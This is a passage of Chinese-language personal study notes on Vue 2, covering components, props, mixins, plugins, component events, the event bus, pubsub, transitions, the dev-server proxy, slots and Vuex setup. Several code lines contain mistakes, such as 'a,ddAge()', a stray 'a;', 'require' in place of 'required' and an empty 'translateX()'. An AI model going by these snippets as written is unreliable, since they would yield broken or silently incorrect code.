    <button @click="shouS">点我显示学校名</button>
  </div>
</template>

<style>
/* 组件的样式 */
.demo {
  background: rebeccapurple;
}
</style>

<script>
// 组件交互相关的代码（数据、方法等等）

// export const school = Vue.extend({ //分别暴露
//   data() {
//     return {
//       name: "wk",
//       address: "souguang",
//     };
//   },
// });

// export {school} //统一暴露

// export default school //默认暴露

export default {
  //默认暴露简写
  name: "School",
  data() {
    return {
      name: "wk",
      address: "souguang",
    };
  },
  methods: {
    shouS(){
      alert(this.name)
    }
  },
};
</script>
```

```vue
//app组件
<template>
  <div>
    <student></student>
    <school></school>
  </div>
</template>

<script>
import School from "./components/school.vue";
import student from "./components/student.vue";
export default {
  components: { student, School },
};
</script>
```

```javascript
//该文件是整个项目的入口文件

//引入vue
import Vue from 'vue'
//引入App组件，它是所有组件的父组件
import App from './App.vue'

//关闭vue的生产提示
Vue.config.productionTip = false

//创建vue实例对象——vm
new Vue({
  //将app组件放入容器中
  // render(h) {
  //     return h(app)
  // },
  render: h => h(App),
}).$mount('#app')
```

> 关于不同版本的Vue:
>
>   1.vue.js 与vue.runtime.xxx.js的区别:
>
> ​	 (1). vue.js是完整版的Vue，包含:核心功能+模板解析器。
>
> ​	 (2).vue.runtime.xxx.js是运行版的Vue，只包含:核心功能;没有模板解析器。
>
>   2.因为vue.runtime.xxx.js没有模板解析器，所以不能使用template配置项，需要使用render函数接收到的createElement函数去指定具体内容。

## ref属性

```javascript
<template>
  <div>
    <p ref="title" v-text="msg"></p>
    <button @click="showDom" ref="btn">点我返回上面的dom</button>
    <school ref="sch"></school>
    <school id="s"></school>
  </div>
</template>

<script>
import school from "./componets/school.vue";
export default {
  components: {
    school,
  },
  data() {
    return {
      msg:'欢迎学习vue',
    }
  },
  methods: {
    showDom(){
      console.log(this.$refs.title);//真实DOM
      console.log(this.$refs.btn);//真实DOM
      console.log(this.$refs.sch);//school组件的实例对象（vc）
      console.log(document.getElementById('s'));
    }
  },
};
</script>
```


> ref属性
>
> ​	1.被用来给元素或子组件注册引用信息(id的替代者)
>
> ​	2.应用在html标签上获取的是真实DOM元素，应用在组件标签上是组件实例对象(vc)
>
> ​	3.使用方式:打标识: `<h1 ref="xxx">.....</h1>`或`<School ref="xxx"></School>`获取:`this.$refs.xxx`

## props配置

```vue
//student组件
<template>
  <div class="school">
    <h2>{{ msg }}</h2>
    <h2>学生姓名：{{ name }}</h2>
    <h2>学生性别：{{ sex }}</h2>
    <h2>学生年龄：{{ MyAge }}</h2>
    <button @click="addAge()">点我增加年龄</button>
  </div>
</template>

<script>
export default {
  data() {
    return {
      msg: "欢迎学习vue！！！",
      // name:"lz",//传入参数，然后又在这里声明，传入的参数级别更高。
      MyAge:this.age
    };
  },
  methods: {
    a,ddAge(){
      this.MyAge++
    }
  },


  //普通声明接收
  // props:['name','age','sex']

  //接收的同时对数据进行类型限制
  // props:{
  //   name:String,
  //   age:Number,
  //   sex:String
  // }

//接收的同时对数据：进行类型限制+默认值的指定+必要性的限制
  props:{
    name:{
      type:String,//name的类型是字符串
      require:true//name是必要的
    },
    age:{
      type:Number,
      default:99//默认值
    },
    sex:{
      type:String,
      require:true
    }
  }
};
</script>

```

```vue
//app组件
<template>
  <div>
    <student name="张三"  :age="18" sex="男"/><!-- age前加：,后面为表达式，用于再真实年龄上加1 -->
    <!-- <student name="李四"  :age="19" sex="女"/>
    <student name="王五"   sex="女"/> -->
  </div>
</template>

<script>
import Student from "./componets/Student.vue";
export default {
  components: {
    Student,
  },
};
</script>
```

> 功能:让组件接收外部传过来的数据
> 	(1).传递数据:
> 		<Demo name="xxx"/>
> 	(2).接收数据:
> 		第一种方式（只接收）:props: [ 'name']
> 		第二种方式（限制类型):props:{name:String}
> 		第三种方式(限制类型、限制必要性、指定默认值）:
>
> ​			props:{
> ​						type:String,//类型
>
> ​						required:true,//必要性
>
> ​						default:'老王’//默认值
> ​						}
> ​	备注: props是只读的，Vue底层会监测你对props的修改，如果进行了修改，就会发出警告,若业务需求确实需要修改，那么请复制props的内容到data中一份，然后去修改data中的数据-

## mixin混入（合）

```javascript
//混入的js  mixin.js
export const hunhe = {
    methods: {
        showName() {
            alert(this.name)
        }
    },
    // data() {
    //     return {
    //         // x:100
    //     }
    // },
}
```

```vue
//student组件
<template>
  <div class="school">
    <h2 @click="showName">学生姓名：{{ name }}</h2>
    <h2>学生性别：{{ sex }}</h2>
  </div>
</template>

<script>
//引入混合。局部引入
// import { hunhe } from "../mixin";
export default {
  data() {
    return {
      name: "lz",
      sex: "nan",
      // x:500//当此处的数据与混合冲突，以此处数据为主，如果是钩子函数冲突时，双方都会展示，混合中的在前面
    };
  },
  // mixins: [hunhe],
};
</script>

```

```vue
//school组件
<template>
  <div class="school">
    <h2 @click="showName">学校名称：{{ name }}</h2>
    <h2>学校地址{{ address }}</h2>
  </div>
</template>

<script>
//引入混合
// import { hunhe } from "../mixin";
export default {
  data() {
    return {
      name: "wk",
      address: "sg",
    };
  },
  // mixins: [hunhe],
};
</script>

```

```javascript
//入口文件 main.js
import Vue from 'vue'
import app from './app'
//在全局引入
import {hunhe} from './mixin'
Vue.mixin(hunhe)

new Vue({
    el: '#app',
    // render: h => h(app),
    render(h) {
        return h(app)
    },
    comments: {
        app
    },
   
})
```

> 功能:可以把多个组件共用的配置提取成一个混入对象使用方式:
> 第一步定义混合，例如:
> 	{
> 		data(){
>
> 、	}，
>
> ​		methods:{
>
> ​		}
>
> ​	}	
> 第二步使用混入,例如:
> (1).全局混入:Vue.mixin(xxx)
>
> (2).局部混入: mixins : [ "xxx " ]

## 插件

```javascript
//plugins.js文件，用来写插件的
//import Vue from "vue"
export default {
    install(Vue) {//注意传入vue了，就不要再上面引入vue，如果引入vue这里就不要传入vue，二选一
        Vue.filter('myslice', function (value) {
            return value.slice(0, 4)
        })

        Vue.directive('fbind', {
            bind(element, binding) {
                element.value = binding.value
            },
            inserted(element, binding) {
                element.focus()
            },
            update(element, binding) {
                element.value = binding.value
            },
        })

        Vue.mixin({
            data() {
                return {
                    x:100,
                    y:200
                }
            },
        })

        //给Vue原型上添加一个方法（vm和vc都能用）
        Vue.prototype.hello = ()=>{alert('你好啊')}
    }

}
```

```javascript
//mian.js文件
import Vue from 'vue'
import App from './App.vue'

import plugins from './plugins'

//关闭vue的生产提示
Vue.config.productionTip = false

//使用插件
Vue.use(plugins)

new Vue({
  render: h => h(App),
}).$mount('#app')
```

```vue
<template>
  <div>
    <h2>学生姓名：{{ name | myslice}}</h2>
    <h2>学生年龄：{{ age }}</h2>
    <input type="text" v-fbind:value = "name">
    <button @click="test">点我显示hello</button>
  </div>
</template>

<script>
export default {
  data() {
    return {
      name: "lz123",
      age: 21,
    };
  },
  methods: {
    test(){
      this.hello();
    }
  },
};
</script>
```

> 功能:用于增强Vue
> 本质:包含install方法的一个对象，install的第一个参数是Vue，第二个以后的参数是插件使用者传递的数据。
> 定义插件:
> 	对象.install = function (Vue，options){
> 	// 1.添加全局过滤器
> 	Vue.filter(....)
> 	// 2.添加全局指令
>
> ​	Vue.directive( ....)
> ​	// 3.配置全局混入(合)
>
> ​	Vue.mixin(....)
> ​	//4.添加实例方法
> ​	Vue.prototype. $myMethod = function() {...}
>
> ​	Vue.prototype. $myProperty = XxXx
>
> }
>
> 使用插件:Vue.use()

## scoped样式

```vue
<template>
  <div class="demo">
    <h2>学生姓名：{{ name }}</h2>
    <h2>学生年龄：{{ age }}</h2>
   
  </div>
</template>

<script>
export default {
  data() {
    return {
      name: "lz123",
      age: 21,
    };
  },
};
</script>

<style scoped><!--当多个组件中样式名字发生冲突，在style标签中加个scoped，意为局部的-->
  .demo{
    background: rebeccapurple;
  }
</style>
```

> scoped样式
>
> ​	作用：让样式在局部生效，防止冲突
>
> ​	写法：`<style scoped>`

## Vue中的自定义事件

>父-->子:props
>
>子-->父:1.父给子一个方法，子调用，传回参数。2.自定义事件
>
>任意组件之间实现通信：1.全局事件总线。2.订阅与发布

### 组件自定义事件

```vue
//app组件，用于接收数据
<template>
  <div class="app">
    <h2>{{ msg }}</h2>
    <h2>学生名为：{{ studentName }}</h2>
    <!-- 通过父组件给子组件传递函数类型的props实现：子给父传递数据 -->
    <school :getSchoolName="getSchoolName"></school>

    <!-- 通过父组件给子组件绑定一个自定事件实现：子给父传递数据（第一种写法，使用v-on、@-->
    <!-- <student v-on:liu="getStudentName"></student>  -->
    <!-- <student @liu="getStudentName" @demo="d1"></student>  -->
    <!-- <student @liu.once="getStudentName"></student>  -->

    <!-- 通过父组件给子组件绑定一个自定事件实现：子给父传递数据（第二种写法，使用ref-->
     <student ref="student" @click.native = "show"></student><!--给组件添加原生事件 -->
  </div>
</template>

<script>
import School from "./components/school.vue";
import student from "./components/student.vue";
export default {
  components: { student, School },
  data() {
    return {
      msg: "nihaoa!!!!",
      studentName:""
    };
  },
  methods: {
    getSchoolName(name) {
      console.log("收到学校名：", name);
    },
    getStudentName(name,...params) {//...params作用是将后面传来的参数放入数组中
      console.log("收到学生名：", name,params);
      this.studentName = name
    },
    d1(){
      console.log("d1..............")
    },
    show(){
      alert("给组件添加的原生事件")
    }
  },
  mounted() {
    this.$refs.student.$on("liu", this.getStudentName);
    // this.$refs.student.$once("liu", this.getStudentName);

    // this.$refs.student.$on("liu",function(name,...params){
    //   console.log("收到学生名：", name,params);
    //   this.studentName = name//谁绑定的事件此处的this就是谁，所以说此处的this是studet不是app。或者使用箭头函数
    // })
  },
};
</script>

<style>
.app {
  background: gray;
}
</style>
```

```vue
//school组件，用于传递数据
<template>
  <div class="school">
    <h2>学校名称：{{ name }}</h2>
    <h2>学校地址：{{ address }}</h2>
    <button @click="sendSchoolName">点我把学校名传给app</button>
  </div>
</template> 

<script>

export default {
  //默认暴露简写
  name: "School",
  data() {
    return {
      name: "wk",
      address: "souguang",
    };
  },
  methods: {
    sendSchoolName(){
      this.getSchoolName(this.name)
    }
  },
  props:["getSchoolName"]
};
</script>

<style scoped>
  .school{
    background: red;
  }  
</style>
```

```vue
//student组件，用于传递数据
<template>
  <div class="student">
    <h2>学生姓名：{{ name }}</h2>
    <h2>学生年龄：{{ age }}</h2>
    <h2>当前n：{{number}}</h2>
    <button @click="addNumber">点我n++</button>
    <button @click="sendStudentName">点我把学生名传给App</button>
    <button @click="unbind">解除绑定事件</button>
    <button @click="desth">点我销毁student组件</button>
  </div>
</template>

<script>
export default {
  data() {
    return {
      name: "lz",
      age: 21,
      number:1
    };
  },
  methods: {
    addNumber(){
      this.number++
    },
    sendStudentName() {
      // this.$emit("liu", this.name, 100, 200, 300);
      this.$emit("liu", this.name, 100, 200, 300);
      this.$emit("demo");
    },
    unbind(){
      this.$off("liu")//解除一个事件绑定
      // this.$off(["liu","demo"])//解除多个事件绑定
      // this.$off()//解除所有事件绑定
    },
    desth(){
      this.$destroy()//销毁了当前student组件的实例，销毁后所有student实例的自定义事件全都不奏效
    }
  },
};
</script>

<style scoped>
.student {
  background: rebeccapurple;
}
</style>
```

```javascript
//main.js
import Vue from 'vue'
import App from './App.vue'

//关闭vue的生产提示
Vue.config.productionTip = false

new Vue({
  render: h => h(App),
  mounted(){
    setTimeout(() => {
      this.$destroy()//销毁了当前App组件的实例，销毁后所有组件的事件全都不奏效
    }, 3000);
  }
}).$mount('#app')


```

### 组件自定义事件_总结

> 1.一种组件间通信的方式，适用于:子组件===>父组件
>
> ⒉使用场景:∶A是父组件，B是子组件，B想给A传数据，那么就要在A中给B绑定自定义事件（事件的回调在A中)。
>
> 3.绑定自定义事件:
>
> ​	1.第一种方式，在父组件中:<Demo @atguigu="test"/>或<Demo v-on:atguigu="test"/>
>
> ​	2.第二种方式，在父组件中:
>
> ```
> <Demo ref = "demo"/>
> .......
> mounted(){
> 	this.$refs.xxx.$on("aiguigu",this.test)
> }
> ```
>
> ​	3.若想让自定义事件只能触发一次，可以使用once修饰符，或 $once方法。
>
> 4.触发自定义事件: this.$emit( 'atguigu',数据)
> 5.解绑自定义事件这个.$off(‘atguigu’)
> 6.组件上也可以绑定原生DOM事件，需要使用native修饰符。
> 7.注意:通过this.$res.xxx.$on(‘atguigu’，回调)绑定自定义事件时，回调要么配置在Methods中，要么用箭头函数，否则中，要么用箭头函数，否则指向会出问题！)

## 全局事件总线(GlobalEventBus)

```js
//main.js
import Vue from 'vue'
import App from './App.vue'

//关闭vue的生产提示
Vue.config.productionTip = false

new Vue({
  render: h => h(App),
  beforeCreate(){
    Vue.prototype.$bus=this;
  }
}).$mount('#app')
```

```vue
//school组件，用于接收数据
<template>
  <div class="school">
    <h2>学校名称：{{ name }}</h2>
    <h2>学校地址：{{ address }}</h2>
    <h2>传入的学生名：{{ studentName }}</h2>
  </div>
</template> 

<script>
export default {
  //默认暴露简写
  name: "School",
  data() {
    return {
      name: "wk",
      address: "souguang",
      studentName: "",
    };
    a;
  },
  mounted() {
    this.$bus.$on("hello", (data) => {
      console.log("收到学生名：", data);
      this.studentName = data;
    });
  },
  beforeDestroy(){
    this.$bus.$off("hello")
  }
};
</script>

<style scoped>
.school {
  background: red;
}
</style>
```

```vue
//student组件，用于传递数据
<template>
  <div class="student">
    <h2>学生姓名：{{ name }}</h2>
    <h2>学生年龄：{{ age }}</h2>
    <button @click="sendStudentName">把学生名传给school组件</button>
  </div>
</template>

<script>
export default {
  data() {
    return {
      name: "lz",
      age: 21,
    };
  },
  methods: {
    sendStudentName() {
      this.$bus.$emit("hello", this.name);
    },
  },
};
</script>

<style scoped>
.student {
  background: rebeccapurple;
}
</style>
```

> 1.一种组件间通信的方式，适用于任意组件间通信。
>
> 2.安装全局事件总线:
>
> ```
> new Vue(
> 	...........
> 	beforeCreate() {
> 		Vue.prototype.$bus = this / /安装全局事件总线，$bus就是当前应用的vm,
> 	},
> 	..........
> })
> ```
>
> 3.使用事件总线:
> 	1.接收数据:A组件想接收数据，则在A组件中给$bus绑定自定义事件，事件的回调留在A组件自身。谁接收数据谁用mounted()钩子函数，用于挂载事件
>
> ```
> methods(){
> 	demo(data){......}
> }
> ........
> mounted(){
> 	this.$bus.$on('xxxx' ,this.demo)
> }
> ```
>
> ​	2.提供数据: this.$bus.$emit( 'xxxx',数据)
> 4.最好在beforeDestroy钩子中，用$off去解绑当前组件所用到的事件。

## 消息订阅与发布(pubsub)

> 借用第三方库pubsub-js，与vue的全局事件总线相似

```vue
//student组件，用于发布消息
<template>
  <div class="student">
    <h2>学生姓名：{{ name }}</h2>
    <h2>学生年龄：{{ age }}</h2>
    <button @click="sendStudentName">把学生名传给school组件</button>
  </div>
</template>

<script>
import pubsub from "pubsub-js";
export default {
  data() {
    return {
      name: "lz",
      age: 21,
    };
  },
  methods: {
    sendStudentName() {
      //全局事件总线
      // this.$bus.$emit("hello", this.name);

      //消息订阅与发布
      pubsub.publish("hello", this.name);
    },
  },
};
</script>

<style scoped>
.student {
  background: rebeccapurple;
}
</style>
```

```vue
//school组件，用于订阅消息
<template>
  <div class="school">
    <h2>学校名称：{{ name }}</h2>
    <h2>学校地址：{{ address }}</h2>
    <h2>传入的学生名：{{ studentName }}</h2>
  </div>
</template> 

<script>
import pubsub from "pubsub-js";
export default {
  //默认暴露简写
  name: "School",
  data() {
    return {
      name: "wk",
      address: "souguang",
      studentName: "",
    };
    a;
  },
  mounted() {
    //全局事件总线
    // this.$bus.$on("hello", (data) => {
    //   console.log("收到学生名：", data);
    //   this.studentName = data;
    // });

    //消息订阅与发布
    //每一次接受会产生一个id
    this.pubId = pubsub.subscribe("hello", (msgName, data) => {
      console.log("收到学生名：", data);
      this.studentName = data;
    });
  },

  beforeDestroy() {
    // this.$bus.$off("hello")
    // this.unsubscribe(this.pubId);
  },
};
</script>

<style scoped>
.school {
  background: red;
}
</style>
```

> 1.一种组件间通信的方式，适用于任意组件间通信。
> 2.使用步骤:
> 	1.安装`pubsub: npm i pubsub-js`
> 	2.引入: `import pubsub from 'pubsub-js`
> 3.接收数据:A组件想接收数据，则在A组件中订阅消息，订阅的回调留在A组件自身。
>
> ```
> methods(){
> 	demo(data){......}
> }
> ......
> mounted() {
> 	this.pid = pubsub.subscribe('xxx',this.demo) //订阅消息
> }
> ```
>
> 4.提供数据:pubsub.publish( 'xxx",数据)
> 5.最好在beforeDestroy钩子中，用PubSub.unsubscribe(pid)去取消订阅。

## todos案例

> 自定义生成id的库：nanoid。在终端输入npm i nanoid。然后引入import { nanoid } from "nanoid";


> 1.组件化编码流程:
>
> ​	(1).拆分静态组件:组件要按照功能点拆分，命名不要与html元素冲突。
>
> ​	(2).实现动态组件:考虑好数据的存放位置，数据是一个组件在用，还是一些组件在用:
>
> ​			1).一个组件在用:放在组件自身即可。
>
> ​			2).一些组件在用:放在他们共同的父组件上(状态提升)。
>
> ​	(3).实现交互:从绑定事件开始。
>
> 2.props适用于:
>
> ​	(1).父组件==>子组件通信
>
> ​	(2).子组件==>父组件通信(要求父先给子一个函数)
>
> 3.使用v-model时要切记: v-model绑定的值不能是props传过来的值，因为props是不可以修改的!
>
> 4.props传过来的若是对象类型的值，修改对象中的属性时Vue不会报错，但不推荐这样做。

### Webstorage(localStorage+sessionStorage)

```html
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>

    <button onclick="addData()">点我添加数据</button>
    <button onclick="readData()">点我读取数据</button>
    <button onclick="deleteData()">点我删除一个数据</button>
    <button onclick="clearData()">点我清空数据</button>
    
</body>
<script>
    var a = {name:"zhangsan",age:18}
    function addData(){
        localStorage.setItem('msg',"lz")
        localStorage.setItem('msg1',666)
        localStorage.setItem('msg2',JSON.stringify(a))//JSON.stringify() 方法将一个 JavaScript 对象或值转换为 JSON 字符串
    }
    function readData(){
        console.log(localStorage.getItem("msg"))
        console.log(localStorage.getItem("msg1"))
        
        var b= localStorage.getItem("msg2")
        console.log(JSON.parse(b))//JSON.parse() 方法用来解析JSON字符串，构造由字符串描述的JavaScript值或对象。

        console.log(localStorage.getItem("msg5"))//null

        var C= localStorage.getItem("msg6")
        console.log(JSON.parse(C))//null
    }
    function deleteData(){
        // localStorage.removeItem("msg")
        // localStorage.removeItem("msg1")
        localStorage.removeItem("msg2")
    }
    function clearData(){
        localStorage.clear()
    }
</script>
</html> 
```

> 1.存储内容大小一般支持5MB左右(不同浏览器可能还不一样)
> 2.浏览器端通过`Window.sessionStorage`和`Window.localStorage`属性来实现本地存储机制。
>
> 3.相关API:
>
> 1. ```
>    xxxxxStorage.setItem( " key " , "value");
>    ```
>
>    该方法接受一个键和值作为参数，会把键值对添加到存储中，如果键名存在，则更新其对应的值。
>
> 2. ```
>    xxxxxStorage-getItem( " person");
>    ```
>
>    该方法接受一个键名作为参数，返回键名对应的值。
>
> 3. ```
>    XXXxxStorage.removeItem( " key ");
>    ```
>
>    该方法接受一个键名作为参数，并把该键名从存储中删除。
>
> 4. ```
>    xxxxxStorage.clear()
>    ```
>
>    该方法会清空存储中的所有数据。
>
> 备注:
>
> 1. SessionStorage存储的内容会随着浏览器窗口关闭而消失。
>
> 2. LocalStorage存储的内容，需要手动清除才会消失。
>
> 3. ```
>    xxxxxStorage.getItem(xxx)
>    ```
>
>    如果xxx对应的value获取不到，那么getltem的返回值是null
>
> 4. ```
>    JSON.parse(null)
>    ```
>
>    的结果依然是null。

### nextTick

> 1.语法:`this.$nextTick(回调函数)`
> 2.作用:在下一次DOM更新结束后执行其指定的回调。
> 3.什么时候用:当改变数据后，要基于更新后的新DOM进行某些操作时，要在nextTick所指定的回调函数中执行。

```js
	methods:{
	    handleEdit(todo) {
          ......
          this.$nextTick(function(){
            this.$refs.inputTitle.focus()
          })
        },
    }
```

## 过渡与动画

> 过度和动画都是先定义变化，再来使用

### 动画animation

```vue
<template>
  <div>
    <button @click="isShow = !isShow">点我</button>

    <transition-group name="hello" appear>   <!--:appear="true"--><!--appear表示为刚开始就展示动画-->
     <h2 v-show="isShow" key="1">你好啊！！！</h2>
     <h2 v-show="!isShow" key="2">LZ！！！</h2>
    </transition-group>
  </div>
</template>

<script>
export default {
  data() {
    return {
      isShow: true,
    };
  },
};
</script>

<style scoped>
h2 {
  background: orange;
}

/*先定义动画*/
@keyframes atguigu {
  from {
    transform: translateX(-100%);
  }
  to {
    transform: translateX(0px);
  }
}
    
/* .v-enter-active { */
.hello-enter-active {
  animation: atguigu 1s linear;
}

/* .v-leave-active { */
.hello-leave-active {
  animation: atguigu 1s linear reverse;
}
</style>
```

### 过渡transition

```vue
<template>
  <div>
    <button @click="isShow = !isShow">点我</button>

    <transition-group name="hello" appear> 
      <h2 v-show="isShow" key="1">你好啊！！！</h2>
      <h2 v-show="!isShow" key="2">LZ！！！</h2>
    </transition-group>
  </div>
</template>

<script>
export default {
  data() {
    return {
      isShow: true,
    };
  },
};
</script>

<style scoped>
h2 {
  background: orange;
 //transition: 0.5s linear;
}
 
/* 先定义过渡*/
/* 进入的起点、离开的终点 */
.hello-enter,.hello-leave-to{
  transform: translateX(-100%);
}
/* 进入的终点、离开的起点 */
.hello-enter-to,.hello-leave{
  transform: translateX();
}
    
    
.hello-enter-active,.hello-leave-active{
  transition: 0.5s linear;
}
  
</style>
```

### 集成第三方动画

> 推荐在npm搜索`animate.css`
>
> 
>
> 

```vue
<template>
  <div>
    <button @click="isShow = !isShow">点我</button>

    <transition-group name="animate__animated animate__bounce" appear enter-active-class="animate__rubberBand" leave-active-class="animate__backInDown"> 
      <h2 v-show="isShow" key="1">你好啊！！！</h2>
      <h2 v-show="!isShow" key="2">LZ！！！</h2>
    </transition-group>
  </div>
</template>

<script>
import 'animate.css'//引用样式
export default {
  data() {
    return {
      isShow: true,
    };
  },
};
</script>

<style scoped>
h2 {
  background: orange;
}
</style>
```

> 总结：
>
> 1. 作用:在插入、更新或移除DOM元素时，在合适的时候给元素添加样式类名。
> 2. 图示:
>
> 
>
> 3.写法:
>
> 1. 准备好样式:
>
>    - 元素进入的样式:
>
>      ​	1.v-enter:进入的起点
>
>      ​	2.v-enter-active:进入过程中
>
>      ​	3.v-enter-to:进入的终点
>
>    - 元素离开的样式:
>
>      ​	1.v-leave:离开的起点
>
>      ​	2.v-leave-active:离开过程中
>
>      ​	3.v-leave-to:离开的终点
>
> 2. **使用`<transition>`包裹要过度的元素，并配置name属性**:
>
> ```
> <transition name="hello">
> 	<hl v-show="isshow">你好啊!</h1>
> </transition>
> ```
>
> 4.备注:**若有多个元素需要过度，则需要使用: `<transition-group>`，且每个元素都要指定key值。**

# 第四章：Vue中的AJAX


## vue脚手架配置代理

> 首先引入axios，在终点输入`npm i axios`安装，然后在app组件中引入
>
> vue配置文件在vue官网-->生态系统-->Vue CLI-->配置参考--> devServer
>
> 在项目根目录下新建`vue.config.js`文件

### 方法一：

```vue
//app组件
<template>
  <div>
    <button @click="getStudents">获取学生信息</button>
  </div>
</template>

<script>
import axios from 'axios'
  export default {
    name:'App',
    methods: {
      getStudents(){
        axios.get('http://localhost:8080/students').then(
          response => {
            console.log("请求成功了",response.data)
          },
          error => {
            console.log("请求失败",error.message)
          }
        )
      },
  }
</script>

<style>

</style>
```

```js
//vue配置文件
module.exports = {
    lintOnSave: false,//关闭语法检查

    //开启代理服务器(方法一)
     devServer: {
         proxy: 'http://localhost:5000'
    }
}
```

> 说明:
>
> 1. 优点:配置简单，请求资源时直接发给前端(8080)即可。
> 2. 缺点:**不能配置多个代理，不能灵活的控制请求是否走代理。**
> 3. 工作方式:若按照上述配置代理，当请求了前端不存在的资源时，那么该请求会转发给服务器（优先匹配前端资源)

### 方法二：


> 可以请求多个地址

```vue
//app组件
<template>
  <div>
    <button @click="getStudents">获取学生信息</button>
    <button @click="getCars">获取汽车信息</button>
  </div>
</template>

<script>
import axios from 'axios'
  export default {
    name:'App',
    methods: {
      getStudents(){
        //这个地方要带着api
        axios.get('http://localhost:8080/api/students').then(
          response => {
            console.log("请求成功了",response.data)
          },
          error => {
            console.log("请求失败",error.message)
          }
        )
      },
      getCars(){
        axios.get('http://localhost:8080/foo/cars').then(
          response => {
            console.log("请求成功了",response.data)
          },
          error => {
            console.log("请求失败",error.message)
          }
        )
      }
    },
  }
</script>

<style>

</style>
```

```js
//vue配置文件
module.exports = {
    //开启代理服务器(方法二)
    devServer: {
        proxy: {
            '/api': {//匹配所有以./api开头的请求路径
                target: 'http://localhost:5000',//代理目标的基础路径
                pathRewrite: { '^/api': '' },//在代理服务器访问5000端口时，重写api开头的路径为' ' 
                ws: true,
                changeOrigin: true
            },
            '/foo': {//匹配所有以./api开头的请求路径
                target: 'http://localhost:5001',//代理目标的基础路径
                pathRewrite: { '^/foo': '' },
                ws: true,
                changeOrigin: true
            }
        }
    }
}
/*
	changeOrigin设置为true时，服务器收到的请求头中的host为：localhost：5000
	changeOrigin设置为false时，服务器收到的请求头中的host为：localhost：8080
	changeOrigin默认值为true。就是看请求是从哪里发来的
*/
```

> 说明:
>
> 1. 优点:可以配置多个代理，且可以灵活的控制请求是否走代理。
> 2. 缺点:配置略微繁琐，请求资源时必须加前缀。

## github案例

> 在拆分静态组件时，如果有使用到了第三方库，如bootstarp时，css样式不要直接放到style标签下，有两种方式：
>
> - 方法一：在src下面新建一个静态资源文件assets/css，然后将bootstarp.css文件放入，再在app组件中引入`import bootstarp.css`。但是这个方法有个问题，在css文件中使用到了其他字体，但是我们没有的情况下会报错
>
> - 方法二：在public下新建一个css文件，然后把css放入，再在index.html中引入，引入的写法最好和vue的一致
>
>   ```html
>   <link rel="stylesheet" href="<%= BASE_URL %>css/bootstrap.css">
>   ```
>
> 

### vue-resource插件

> vue 1.0在使用的，现在已经交给其他团队使用维护了，还是推荐使用axios
>
> vue-resource的用法：
>
> 首先在终端中安装`npm i vue-resource`,然后再main.js中引入,再然后`vue.use()`,后面的用法和axios一样，只是把axios改成`this.$http`

```vue
<template>
  <section class="jumbotron">
    <h3 class="jumbotron-heading">Search Github Users</h3>
    <div>
      <input
        type="text"
        placeholder="enter the name you search"
        v-model="inputValue"
      />&nbsp;<button @click="searchUser">Search</button>
    </div>
  </section>
</template>

<script>
import axios from "axios";
export default {
  data() {
    return {
      inputValue: "",
    };
  },
  methods: {
    searchUser() {
      this.$bus.$emit("getUsers",{isFirst:false,isLoading:true,errorMsg:'',users:[]})
      this.$http
        .get(`https://api.github.com/search/users?q=${this.inputValue}`)
        .then(
          (response) => {
            console.log("访问成功",response.data);
            this.$bus.$emit("getUsers",{isLoading:false,errorMsg:'',users:response.data.items})
          },
          (error) => {
            console.log("访问失败", error.message);
            this.$bus.$emit("getUsers",{isLoading:false,errorMsg:error.message,users:[]})
          }
        );
    },
  },
};
</script>
```

## 插槽（注意template标签的使用）

> 1. 作用:让父组件可以向子组件指定位置插入html结构，也是一种组件间通信的方式，适用于父组件===>子组件。
>
> 2. 分类:默认插槽、具名插槽、作用域插槽
>
> 3. 使用方式:
>
>    1. 默认插槽
>
>       ```vue
>       父组件中:
>       <Category>
>         <template>
>       		<div>html结构1</div>
>       	</template>
>       </Category>
>       
>       子组件中:
>       <template>
>       	<div>
>       		<!--定义插槽-->
>       		<slot>插槽默认内容...</slot>
>       	</ div>
>       </template>
>       ```
>
>    2. 具名插槽
>    
>       ```vue
>       父组件中:
>       <Category>
>       	<!--使用template标签，使用v-slot。如果是其他标签的话不可以使用v-slot-->
>       	<template v-slot="center">
>       		<div>html结构1</div>
>       	</template>
>       	<template v-slot:footer>
>       		<div>html结构2</div>
>       	</template>
>       </Category>
>       
>       子组件中:
>       <template>
>       	<div>
>       		<!--定义插槽-->
>       		<slot name="center">插槽默认内容...</slot>
>       		<slot name="footer">插槽默认内容...</slot>
>       	</div>
>       </template>
>       ```
>    3. 作用域插槽
>       
>       1. 理解:数据在组件的自身，但数据生成的结构需要组件的使用者来决定。(games数据在Category组件中，但使用数据所遍历出来的结构由App组件决定)    **子--->父**
>       
>       2. 具体编码
>       
>             ```vue
>             父组件中:
>             <category>
>             	<!--使用scope必须使用template标签，scope后面的名称可以不和传入的名称一致-->
>             	<!--<template slot-scope="scopeData">--><!--这种写法2.6.0之后被废弃了-->
>                 <template v-slot:default="scopeData"><!--2.6.0之后采用这种写法-->
>             		<! --生成的是ul列表-->
>             		<ul>
>             			<li v-for="g in scopeData.games1" :key="g">{{g}}</li>				</ul>
>             	</template>
>             </Category>
>             
>             <Category>
>             	<!--<template slot-scope="scopeData">--><!--这种写法2.6.0之后被废弃了-->
>                 <template v-slot:default="scopeData"><!--2.6.0之后采用这种写法-->
>             		<!--生成的是h4标题。注意这里要.games1-->
>             		<h4 v-for="g in scopeData.games1" : key="g">{{g]}</h4>				</template>
>             </Category>
>             
>             子组件中:
>             <template>
>             	<div>
>             		<slot :games1="games"></slot>
>             	</div>
>             </template>
>             
>             <script>
>             	export default {
>             		name:" Category',
>             		props:['title'],//数据在子组件自身
>             		data() {
>             			return {
>             				games :['红色警戒',"穿越火线","劲舞团',超级玛丽"]
>             			}
>             		},
>             	}
>             </ script>
>             ```
> 

# 第五章：Vuex3插件


### 搭建Vuex环境

> 1. 概念
>
>    ​	在Vue中实现集中式状态（数据)管理的一个Vue插件，**对vue应用中多个组件的共享状态进行集中式的管理(读写)**，也是一种组件间通信的方式，且**适用于任意组件间通信**。
>
> 2. 何时使用?
>
>    ​	多个组件需要共享数据时
>
> 3. 搭建vuex环境
>
>    1. 安装vuex，在终端输入`npm i vuex`
>
>    2. 创建文件:src/store/index.js
>    
>       ```js
>       //该文件用于创建vuex中最为核心的store
>       //引入vue
>       import Vue from 'vue'
>       
>       //引入vuex
>       import vuex from 'vuex'
>       
>       //应用vuex插件
>       Vue.use(vuex)
>       
>       //准备actions——用于响应组件中的动作
>       const actions = { }
>       //准备mutations——用于操作数据（state）
>       const mutations = { }
>       //准备state——用于存储数据
